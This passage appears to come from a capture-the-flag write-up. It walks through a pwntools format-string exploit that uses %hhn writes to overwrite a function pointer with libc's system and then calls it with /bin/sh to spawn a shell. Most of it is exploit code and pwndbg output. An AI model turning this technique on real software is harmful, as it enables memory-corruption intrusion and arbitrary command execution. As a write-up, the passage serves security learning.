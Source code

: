 Put `128` in the MSB of `i`, giving us unlimited attempts:

```python
io.recvuntil("Enter format specifier > ")
io.sendline("%128s%36$hhn".ljust(64).encode("utf-8")+pwn.p64(i+3))
io.recvuntil("Enter your input > ")
io.sendline("")
```

Calculate address of the `debug_func` variable, using offset from `user_input` extracted above:

>   ```
>   # pwndbg> print &user_input
>   # $8 = (<data variable, no debug info> *) 0x558b92b9d060 <user_input>
>   # pwndbg> print &debug_func
>   # $9 = (<data variable, no debug info> *) 0x558b92b9d010 <debug_func>
>   ```

```python
debug_func = user_input + 0x558b92b9d010 - 0x558b92b9d060
```

Calculate address of `system` function, using offset from `__libc_start_call_main` extracted above:

>   ```
>   # pwndbg> print &system
>   # $12 = (int (*)(const char *)) 0x7fb86fc58740 <__libc_system>
>   # pwndbg> print &__libc_start_call_main
>   # $13 = (void (*)(int (*)(int, char **, char **), int, char **)) 0x7fb86fc2a150 <__libc_start_call_main>
>   ```

```python
system = libc_start_call_main + 0x7fb86fc58740 - 0x7fb86fc2a150
```

Update `debug_func` to point to `system`. 

```python
for idx in range(6):
   io.recvuntil("Enter format specifier > ")
   io.sendline(("%"+str(system&0xFF)+"s%36$hhn").ljust(64).encode("utf-8")+pwn.p64(debug_func+idx))
   io.recvuntil("Enter your input > ")
   io.sendline("")
   system = system>>8
```

Call `%Debug` with `/bin/sh` as argument and enter interactive session

```python
io.recvuntil("Enter format specifier > ")
io.sendline("%Debug")
io.recvuntil("Enter your input > ")
io.sendline("/bin/sh")
io.interactive()
```

This worked &#128578;
